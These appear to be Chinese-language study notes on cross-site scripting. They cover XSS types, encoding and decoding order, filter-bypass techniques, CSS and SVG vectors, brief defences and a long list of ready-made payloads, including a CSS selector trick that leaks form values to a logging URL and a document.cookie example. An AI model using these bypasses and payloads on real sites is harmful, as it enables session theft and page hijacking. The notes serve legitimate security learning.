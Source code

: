 ### 基本原理

#### 简介

> XSS在我看来是较为简单的漏洞，这是因为：一.它涉及的语言少，核心是Javascript，需要了解HTML、CSS（有时需了解不同浏览器的特性），后端语言和框架则不用在意，只需要关注其防护方式即可；二.类型少，只有反射性、存储型和DOM型三种；三.防御起来较为简单，只要注意对所有输出采用HTML实体编码，基本上很难产生XSS漏洞。
> 
> 虽然XSS较为简单，但其攻击方式的多样，使得其危害不小，以前听闻很多厂商都不收XSS的洞，这是我不敢苟同的。
> 
> 这里关于XSS的三种类型，之来区分一下反射型和DOM。有人说大多数DOM属于反射型，反射型很直观的特点是，在存在漏洞的地方写入JavaScript脚本后，脚本经过后端不严格的过滤又回到前端执行，对于攻击者来说，他需要构造好一个URL给被攻击者。而DOM型与此极其类似，不同的是，DOM型写的Javascript攻击脚本不会被发送到后端，因为有些场景是前端的JavaScript对输入进行操作（要非常注意innerHTML），而无需发送到后端，这个时候，如果处理输入的JavaScript没有进行严格过滤，攻击者同样可以构造恶意脚本。

#### XSS与CSRF

> XSS和CSRF有一些类似的地方，XSS的反射型和DOM漏洞都依赖于被害人点击攻击者精心构造的链接，CSRF也是这样，不同的是CSRF攻击的方式更为直接了，它无需构造什么Javascript攻击脚本，它构造的链接是目标网站本就有的功能，例如删除某一篇文章，当被害人点击这个url且浏览器本地有尚未过期的cookie时，攻击就完成了。检查CSRF是否存在的方式也很简单，只需要看referer字段是否存在并有效即可，另外，网站为了防御CSRF的攻击，也经常采用提示跳转页的方式。

### 攻击

#### 攻击的两大方式

##### 构造标签内属性

```javascript
<input type="keyword" value="attack">
```

> 假设我们在某处的输入会放在上面的value中，此时，我们可以通过构造类似下面的啊脚本完成攻击

```javascript
// 我们输入了"onclick=alert()"，闭合前面属性的值，然后后面添加了一个可以执行JavaScript脚本的属性
// 这里的onclick可以替换成许多响应事件的函数
<input type="keyword" value=""onclick=alert()"">
```

##### 构造标签

```javascript
<input type="keyword" value="attack">
```

> 与上面相同的

```javascript
// "><script>alert()</scr11ipt><"是我们输入的内容
<input type="keyword" value=""><script>alert()</script><"">
```

#### 补充：有关JavaScript伪协议

> 例如onclick="myFunc()"这样的事件可以执行JavaScript，它也支持onclick="javascript:alert();"这种伪协议的写法，在浏览器打开javascript：URL的时候，它会将url当作JavaScript代码运行，当返回值不为undefined的时候，=前的属性将会被赋值为JavaScript的执行结果。
> 
> src、href等属性的合法内容除了是url外，还可以直接跟内容，例如\<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">\</a>，JavaScript伪协议的最后一条语句执行产生的字符串将被视为数据内容。
> 
> 注意“当返回值不为undefined的时候”，url可以是用分号分割的多条JavaScript语句，这意味着当我们希望攻击更隐蔽的发生时，可以采用href=" javascript:window.open("about:blank");void 0;"这样的写法，最后的void 0 将会使前面的JavaScript代码无法改变当前页面的dom元素。
> 
> 支持JavaScript伪协议的有src、href等可以加载链接的属性，也有例如onclick、onload这样的事件

##### \<a href="" target="\_blank">中的target="\_blank"限制JavaScript伪协议的作用

target="\_blank"属性是表明按照href的链接打开一个新窗口，当href的内容为JavaScript伪协议时，其不会生效

#### 补充：编码

##### 浏览器解码顺序

> 浏览器–>`HTML解码-->URL解码-->JavaScript解码`
> 
> [XSS_伪协议与编码绕过_伪协议加编码 s_南部余额的博客-CSDN博客](https://blog.csdn.net/qq_33181292/article/details/117251090)

##### html实体编码

> HTML实体编码有三种写法，实体名称\&lt; 十进制实体编码\&#60; 十六进制实体编码\&#x003c。HTML实体编码可以用于编辑“数据状态中的字符引用”、“属性值状态中的字符引用” 和 “RCDATA状态中的字符引用” 

* 数据状态中的字符引用：数据状态就是解析一个标签内里面的内容，如 `<div>...</div>` 中的内容
* 属性值状态中的字符引用：属性值状态中的字符引用就好理解了，就是src，herf这样的属性值中的HTML实体，他也是会先进行HTML解码的，比如下面的语句，会先对里面HTML解码，然后再继续往下执行

```html
<a href=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;>test</a>
```

* RCDATA状态中的字符引用:HTML中有五类元素
  
  * 空元素(Void elements)，如 `<area>`、`<br>`、`<base>` 等等。空元素不能容纳任何内容，因为它们没有闭合标签，没有内容能够放在开始标签和闭合标签中间。
  
  * 原始文本元素(Raw text elements)，有 `<script>` 和 `<style>`。原始文本元素可以容纳文本。
  
  * RCDATA元素(RCDATA elements)，有 `<textarea>` 和 `<title>`。RCDATA元素可以容纳文本和字符引用。

> 注意到注意到RCDATA元素中有\<textarea\> 和 \<title\> 两个属性并且有字符引用，也就是当实体字符出现在这两个标签里面的时候，实体字符会被识别并进行HTML编码解析。这里要再提醒一次，在解析这些字符引用的过程中不会进入“标签开始状态”，所以就不会建立新的标签，所以下面这个语句触发不了XSS，这涉及到了RCDATA的一个特殊的情况。即在浏览器解析RCDATA元素的过程中，解析器会进入“RCDATA状态”。在这个状态中，如果遇到“<”字符，它会转换到“RCDATA小于号状态”。如果“<”字符后没有紧跟着“/”和对应的标签名，解析器会转换回“RCDATA状态”，并不会进入“标签开始状态”的。**这意味着在RCDATA元素标签的内容中，唯一能够被解析器认做是标签的就只有 \</textarea\> 或者 \</title\>**，因此，在 <textarea> 和 <title> 的内容中不会创建标签，就不会有脚本能够执行了。另外，刚刚也谈到了，**`<script>` 和 `<style>`是原始文本元素，在这两个标签内部的内容只有文本，因此，html实体编码在这里无效**。

![image-20230906170541489](.\images\image-20230906170541489.png)

![image-20230906170634555](.\images\image-20230906170634555.png)

![image-20230906170658759](.\images\image-20230906170658759.png)

​    仅有\<p\>...\</p\>内的JavaScript执行

* 总结：利用html实体编码进行绕过执行JavaScript只有在编码支持JavaScript伪协议的属性的属性值时有用，在其他地方试图使用JavaScript实体编码编码\<\> 属性值 标签名等是达不到效果的。虽然上面提到了用html实体编码编码\<script\>标签内的JavaScript代码也是不生效的，但是我们可以利用\<svg\>标签达成我们的目的，这一点后面再说。

##### JavaScript编码

见链接

##### base64编码

```javascript
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
<!--base64加密：PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg 解码：<script>alert(1)</script>-->
<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a>
<iframe src="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg=="></iframe>
```

##### 多层编码

见链接

#### 补充：注释

```html
<!--这是单行注释-->
<!--
    这是多行注释
    这是多行注释
    这是多行注释
-->
```

```css
/*这是单行注释*/

/*
    这是多行注释
    这是多行注释
    这是多行注释
*/
```

```javascript
//这是单行注释
/*
    这是多行注释
    这是多行注释
    这是多行注释
*/

// 这里输入了</address> <img src=# onerror=alert(1)//，起到了闭合前文引号的同时注释后面的引号
<img src="</address> <img src=# onerror=alert(1)//">
```

> 注释的使用：html注释常常用来闭合标签；JavaScript的注释可以在在一些不和闭合引号的地方将其注释

#### 过滤和绕过

##### 关键字过滤

* 大小写绕过
* 双写绕过
* 编码绕过
* 回车、tab、空格、注释、括号等分割引号或者script标签内的**JavaScript语句**

```javascript
/*添加空格、TAB、回车、换行：*/alert%20(/xss/)、alert%0A(/xss/)、alert%0D(/xss/)、alert%09(/xss/)
/*添加多行注释：*/alert/*abcd*/(/xss/)
/*添加注释换行：*/alert//abcd%0A(/xss/)、confirm//abcd%0D(/xss/)
/*使用''代替()：*/alert'xss'
/*使用括号分割：*/(alert)(/xss/)、((alert))(/xss/)
```

注意分割的地方，直接将一个关键字aler%20t分开是不行的，空格符分割涉及到JavaScript的**no LineTerminator here**规则和自动插入分号规则。

##### 关键字变形

* 大小写
* 编码

##### 特殊符号过滤

> 全过滤了肯定无法绕过，针对过滤不完全的情况则有很多方法，主要是有很多字符可以作为替换方案

* 过滤了引号：html可以不用引号；JavaScript可以用反引号
* 过滤了&符号阻止编码：可以使用其他编码
* 过滤了括号：有些JavaScript函数后可以不加括号，或者用 //分割
* 对url进行过滤
  * 过滤http：可以直接用\\\\代替http:\\\
  * 过滤 . :可以用。代替，有些浏览器会自动优化中文句号
* 过滤了空格
  * 使用其他空白字符代替 %0d %0a

##### 将特殊字符转化为HTML实体

* 以php为例，默认的htmlspecialchars()不过滤单引号，因此使用htmlspecialchars()时需注意合理设置
* 有的场景下，前端输入的返回是在script标签或则JavaScript伪协议内，这时htmlspecialchars()完全无效

##### 利用函数

* 这里利用一些函数就可以使用字符串拼接成JavaScript关键字和函数进行

```javascript
// window.alert("hello world")
window["ale" + "rt"]("Hello, World!");

eval("wind" + "ow.alert('Hello, World!');");
 
var obj = { ale: { rt: function(msg) { alert(msg); } } };
obj["ale"]["rt"]("Hello, World!");

document.write('<script>alert(document.cookie)<\/script>')
```

#### 利用CSS进行XSS

```css
/* 利用CSS中的 expression() url() regex() 等函数或特性来引入外部的恶意代码 */
/*  很多浏览器都禁用了，貌似仅IE支持 */
/*  */
<div style="background-im-age:url(javascript:alert('xss'))">
<div style="width:exp/*这里可以注释*/ression(alert('xss'));">

/* 产生的新的攻击方式 */
<style>
    #form2 input[value^='a'] { background-image: url(http://localhost/log.php/a); }
    #form2 input[value^='b'] { background-image: url(http://localhost/log.php/b); }
    #form2 input[value^='c'] { background-image: url(http://localhost/log.php/c); }
    [...]
</style>
<form action="http://example.com" id="form2">
    <input type="text" id="secret" name="secret" value="abc">
</form>
```

#### 与SVG有关的XSS

##### SVG标签结合html实体编码绕过

```html
<svg><script>&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x0028;&#x002f;&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x7f16;&#x7801;&#x002f;&#x0029;&#x003b;</script></svg>
```

* 此时\<script\>内的JavaScript支持html实体编码

##### 利用svg文件上传进行XSS

> 代码中的SVG标签和onload事件本身并不依赖于其他特定的标签来触发弹窗。无论它们被放置在哪个标签内，只要浏览器解析并加载了这个SVG标签，onload事件就会被触发。
> 
> SVG标签通常是在HTML文档中嵌入使用的，并且可以放置在许多不同的HTML标签内。具体取决于网页的结构和用途。以下是一些常见的情况：

```html
<body>
  <svg onload="alert(document.domain)">
    <!-- SVG内容 -->
  </svg>
</body>

<div>
  <svg onload="alert(document.domain)">
    <!-- SVG内容 -->
  </svg>
</div>

<img src="data:image/svg+xml,<svg onload='alert(document.domain)'>">

<svg id="rectangle" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink"
width="100" height="100">
<a xlink:href="javascript:alert(location)">
<rect x="0" y="0" width="100" height="100" />
</a>
</svg>
```

[用SVG绕过浏览器XSS审计 - r00tgrok - 博客园 (cnblogs.com)](https://www.cnblogs.com/r00tgrok/p/SVG_Build_XSS_Vector_Bypass_Firefox_And_Chrome.html)

### 利用

#### 基本方式

> XSS产生在于后端没有对输入的数据进行检查既返回前端，攻击者可构造script脚本进行提交。当使用GET方法提交数据时，可以直接构造型如url?query=<script>给被害人；当使用POST方法提交数据时，则需要我们在自己的服务器上构造一个恶意页面，使用表单的方式提交数据，注意此处我们写入的恶意脚本在哪，我们的恶意脚本并不是在在我们的恶意界面起作用，因为恶意界面由于同源策略等浏览器安全策略，是获得不了被害人在目标站点的cookie的，我们的恶意脚本是作为输入提交到了目标站点。

### 防御

* HttpOnly
* 在响应报文的header中配置X-XSS-Protection

### 附常用payload

```html
<a href="javascript:alert(1)">test</a>
<a href="x" onfocus="alert('xss');" autofocus="">xss</a>
<a href="x" onclick=eval("alert('xss');")>xss</a>
<a href="x" onmouseover="alert('xss');">xss</a>
<a href="x" onmouseout="alert('xss');">xss</a>

<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

<svg onload=javascript:alert(1)>
<svg onload="alert('xss');"></svg>

<button onclick=alert(1)>
<button onfocus="alert('xss');" autofocus="">xss</button>
<button onclick="alert('xss');">xss</button>
<button onmouseover="alert('xss');">xss</button>
<button onmouseout="alert('xss');">xss</button>
<button onmouseup="alert('xss');">xss</button>
<button onmousedown="alert('xss');"></button>

<div onmouseover='alert(1)'>DIV</div>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></object>

<script>alert('xss')</script>
<script>alert(/xss/)</script>
<script>alert(123)</script>

<p onclick="alert('xss');">xss</p>
<p onmouseover="alert('xss');">xss</p>
<p onmouseout="alert('xss');">xss</p>
<p onmouseup="alert('xss');">xss</p>

<input onclick="alert('xss');">
<input onfocus="alert('xss');">
<input onfocus="alert('xss');" autofocus="">
<input onmouseover="alert('xss');">
<input type="text" onkeydown="alert('xss');"></input>
<input type="text" onkeypress="alert('xss');"></input>
<input type="text" onkeydown="alert('xss');"></input>

<details ontoggle="alert('xss');"></details>
<details ontoggle="alert('xss');" open=""></details>

<select onfocus="alert('xss');" autofocus></select>
<select onmouseover="alert('xss');"></select>
<select onclick=eval("alert('xss');")></select>

<form method="x" action="x" onmouseover="alert('xss');"><input type=submit></form>
<form method="x" action="x" onmouseout="alert('xss');"><input type=submit></form>
<form method="x" action="x" onmouseup="alert('xss');"><input type=submit></form>

<body onload="alert('xss');"></body>

<!-- css相关的xss -->
<div style="background-image:url('http://127.0.0.1/xss.gif')"></div>
<style>body {background: url('http://127.0.0.1/xss.gif')}</style>
<!-- expression()表达式在IE7及以下是有效的，在IE8及以上就失效了 -->
<div style="{left: expression(alert('xss'))}"></div>
<!-- 利用 @import 引入外部 js -->
<!-- 被引用的css body {event: expression (onload = function() {alert('XSS');})} -->
<style type="text/css">@import url(http://www.xx.css)</style>
<!-- 还可以利用 @import 直接执行 XSS 代码 -->
<style>@import "javascript:alert('xss')";</style>
```

* 整理补充

```html
<button formaction=javascript:alert(1)></button><!-- 试验过，单独无法触发xss，需配合input标签？ -->
```